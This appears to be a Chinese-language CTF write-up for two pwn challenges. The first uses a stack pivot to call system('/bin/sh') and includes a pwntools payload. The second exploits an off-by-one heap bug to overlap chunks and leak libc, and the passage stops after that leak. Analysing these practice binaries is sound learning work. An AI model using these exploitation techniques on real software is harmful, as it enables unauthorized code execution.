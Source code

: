 ### ciscn_2019_es_2
只能溢出 8 字节，空间太小，因此考虑栈迁移。如下布置栈：
```
ret addr
ebp-0x2c
padding
/sh\x00
/bin
ebp-0x1c
padding
system
padding
ebp-0x24
padding
padding
```
得到：
```python
sa('name?\n','a'*0x28)
ru('a'*0x28)
ebp = uu32(r(4))
leak('ebp', ebp)
payload = flat('a'*8,ebp-0x24,'a'*4,elf.plt['system'],'a'*4,ebp-0x1c,'/bin/sh\x00','a'*4,ebp-0x2c)
s(payload)
```

### roarctf_2019_easy_pwn
本题在 `write` 时存在 off_by_one 漏洞：
```c
__int64 __fastcall sub_E26(signed int a1, unsigned int a2)
{
  __int64 result; // rax

  if (a1> (signed int)a2 )
    return a2;
  if (a2 - a1 == 10)
    LODWORD(result) = a1 + 1;
  else
    LODWORD(result) = a1;
  return (unsigned int)result;
}
```

如果编辑时输入的 `size` 比创建时的 `size` 大 10，就可以多输入一个字节。这多出来的一个字节可以覆盖到下一个 chunk 的 `chunk_size` 字段，从而修改其大小，造成堆块重叠。

首先连续创建 5 个 `chunk`，其中第 0 个的大小必须以 `8` 结尾，否则只能溢出到 `prev_size` 而不是 `chunk_size`。编辑 0 中数据，触发 off_by_one 条件溢出修改 1 的大小。随后 `free(1)` 使其对应大小的 chunk 进入 unsorted bin，此时 2 的 fd 即指向 `main_arena+88`，从而可以泄露 libc。
```python
add(0x58) # 0
for i in range(4):
	add(0x60) # 1
edit(0, 0x58+10,'a'*0x58+'\xe1')
delete(1)
add(0x60) # 1
show(2) # 2
ru('content:')
main_arena = uu64(r(6)) - 88
base = main_arena - libc.sym['__malloc_hook'] - 0x10
leak('base', base)
```
